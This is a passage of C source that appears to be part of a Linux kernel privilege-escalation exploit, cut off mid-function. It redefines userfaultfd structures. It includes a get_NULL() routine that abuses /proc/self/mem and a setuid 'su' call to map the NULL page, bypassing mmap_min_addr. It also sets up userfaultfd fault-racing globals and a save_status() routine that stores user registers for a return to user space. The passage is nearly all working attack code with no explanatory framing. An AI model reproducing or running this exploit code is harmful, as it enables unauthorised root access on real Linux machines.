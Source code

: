```c=
			__u64	reserved2;
			__u64	reserved3;
		} reserved;
	} arg;
} __packed;



struct uffdio_api {
	__u64 api;
	 
#define UFFD_FEATURE_PAGEFAULT_FLAG_WP		(1<<0)
#define UFFD_FEATURE_EVENT_FORK			(1<<1)
#define UFFD_FEATURE_EVENT_REMAP		(1<<2)
#define UFFD_FEATURE_EVENT_REMOVE		(1<<3)
#define UFFD_FEATURE_MISSING_HUGETLBFS		(1<<4)
#define UFFD_FEATURE_MISSING_SHMEM		(1<<5)
#define UFFD_FEATURE_EVENT_UNMAP		(1<<6)
#define UFFD_FEATURE_SIGBUS			(1<<7)
#define UFFD_FEATURE_THREAD_ID			(1<<8)
	__u64 features;

	__u64 ioctls;
};
						   
struct uffdio_register {
	struct uffdio_range range;
#define UFFDIO_REGISTER_MODE_MISSING	((__u64)1<<0)
#define UFFDIO_REGISTER_MODE_WP		((__u64)1<<1)
	__u64 mode;
	__u64 ioctls;
};	   
				
void get_NULL(){
	void *map = mmap((void*)0x10000, 0x1000, PROT_READ|PROT_WRITE,
                   MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);
	int fd = open("/proc/self/mem", O_RDWR);
  	unsigned long addr = (unsigned long)map;
  	while (addr != 0) {
	    addr -= 0x1000;
	    lseek(fd, addr, SEEK_SET);
    	    char cmd[1000];
	    sprintf(cmd, "LD_DEBUG=help su --help 2>&%d", fd);
    	    system(cmd);
  	}
	close(fd);
	printf("data at NULL: 0x%lx\n", *(unsigned long *)0);
}
static int page_size;
char *fault;
int pfd[0x1000];
int tmp;

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );

```